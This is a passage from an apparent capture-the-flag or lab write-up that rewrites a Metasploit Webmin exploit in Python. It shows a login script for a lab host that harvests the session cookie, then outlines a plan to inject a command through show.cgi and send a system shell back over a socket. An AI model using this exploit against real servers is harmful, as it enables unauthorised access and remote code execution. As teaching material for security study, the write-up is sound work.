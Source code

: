 `r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, allow_redirects=False)`

\
Next we can include the "if statement". We can check the status code and verify the cookies aren't empty using methods from the `requests` module.

`if r.status_code == 302 and r.cookies["sid"] != None`

In the metasploit module, the manual formatting of cookies with `.split()` is necessary but this is not the case in python. While we are able to include several methods to obtain the alphanumeric cookie, we can simply read the value from the header directly with `r.cookies["sid"]`. We can assemble a quick test and see each method of formatting the cookie works.\


Our script will look like this:

{% code overflow="wrap" lineNumbers="true" %}
````python
```python
import requests

data = {'page' : "/", 'user' : "user1", 'pass' : "1user"}
url = "http://10.10.69.153/session_login.cgi"

# POST Request.
r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, 
allow_redirects=False)

if r.status_code == 302 and r.cookies["sid"] != None:
  print("[+] Login Successful, executing payload..")
else:
  print("[-] Failed to login !")

'''
other ways to extract the cookie.
c = r.cookies["sid"]
s = r.cookies['Set-Cookie'].split('=')[1].split(";")[0].strip()
'''
```
````
{% endcode %}

We've now completed the login section of our exploit.

* [x] the login page URI data (credentials, receiving port and login page file).
* [x] POST request sending the URI data.
* [x] format the cookie.
* [x] verify HTTP response code and the session id is not empty, print statement to verify success.

### Exploit

Now we've reached the main event, crafting our exploit. Let's review our needs and discuss some initial ideas to implement them.

* generate five random alphanumeric characters.
* store the system shell with a function, encode it and send it back via socket.
* send a GET or POST request with compromised cookie to `show.cgi` with invalid input piping it to the malicious command.

